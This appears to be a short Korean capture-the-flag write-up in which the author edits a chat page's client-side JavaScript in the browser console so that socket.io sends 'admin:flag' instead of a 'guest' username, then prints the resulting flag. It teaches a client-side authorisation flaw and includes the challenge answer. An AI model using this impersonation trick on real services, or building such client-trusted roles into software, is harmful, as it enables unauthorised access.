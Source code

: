# 자바스크립트 함수 수정

send를 보내고 답을 받을 수가 있다. 
소켓을 통해서 통신을 하며,
flag 명령어를 넣으면 권한이 없다고 나온다.

스크립트를 보니, username이 guest라고 되어있다. 
admin으로 바꿔서 해본다. 

```html
<script>
    $(function () {
      var username = "guest";
      var socket = io();
      $('form').submit(function(e){
        e.preventDefault();
        socket.emit('cmd',username+":"+$('#m').val());
        $('#m').val('');
        return false;
      });
      socket.on('cmd', function(msg){
        $('#messages').append($('<li>').text(msg));
      });
    });
</script>
```

이런 스크립트 요소가 있는데. 
콘솔에서 아래와 같이 바꾼다. 

```javascript
    $(function () {
      var socket = io();
      $('form').submit(function(e){
        e.preventDefault();
        socket.emit('cmd','admin:flag');
        $('#m').val('');
        return false;
      });
      socket.on('cmd', function(msg){
        $('#messages').append($('<li>').text(msg));
      });
    });
```

그리고 아무 문자나 send하면, flag가 나온다. 

```
FLAG{do_you_know_about_darkhotel}
```

